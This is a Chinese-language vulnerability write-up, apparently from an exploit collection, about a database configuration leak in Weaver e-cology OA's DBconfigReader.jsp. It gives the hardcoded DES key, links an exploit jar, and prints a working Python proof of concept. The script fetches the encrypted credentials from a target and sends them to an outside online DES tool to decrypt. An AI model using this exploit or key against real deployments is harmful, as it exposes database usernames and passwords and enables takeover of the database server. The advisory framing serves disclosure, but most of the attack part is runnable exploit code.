

# 泛微OA DBconfigReader.jsp 数据库配置信息泄漏漏洞

## 漏洞描述

2019年10月24日，360CERT监测到友商发布了泛微e-cology OA数据库配置信息泄漏漏洞预警，漏洞等级中。

攻击者可通过存在漏洞的页面直接获取到数据库配置信息。如果攻击者可直接访问数据库，则可直接获取用户数据，甚至可以直接控制数据库服务器。

360CERT判断漏洞等级为中，危害面/影响面低。建议使用泛微e-cology OA的用户及时安装最新补丁，以免遭受黑客攻击。

## 漏洞影响

```
目前已知为8.100.0531,不排除其他版本，包括不限于EC7.0、EC8.0、EC9.0版
```

## 漏洞复现

根据源码可以得到DES密钥为 1z2x3c4v5b6n（也有1z2x3c4v的,可以按此规律来爆破）




可以看到会将当前连接数据库的用户名密码，url，logintype等信息进行des加密，并最终进行返回，可以直接通过des解密获取泄露信息。


## 漏洞POC

[Github链接](https://github.com/ianxtianxt/ecologyExp.jar)

python代码


```python
import base64
import requests
import ast

def req(url):
	headers =  {
        'Content-Type':'application/x-www-form-urlencoded',
        'User-Agent':'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36',
        'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
    }

	r1 = requests.get(url,headers=headers).content
	s = r1.replace('\r\n','')
	res1 = base64.b64encode(s)
	
	postdata = {
		'data':res1,
		'type':'des',
		'arg':'m=ecb_pad=zero_p=1z2x3c4v_o=0_s=gb2312_t=1'
	}
	u = 'http://tool.chacuo.net/cryptdes'
	r2 = requests.post(u,data=postdata,headers=headers).content	
	res2 = ast.literal_eval(r2)
	
	return res2['data']

url = 'http://xxx.xxx.xxx.xxx:8888//mobile/DBconfigReader.jsp'
print req(url)
```


## 参考文章


[[更新\]泛微e-cology OA数据库配置信息泄漏漏洞预警](https://mp.weixin.qq.com/s/zTEUan_BtDDzuHzmd9pxYg)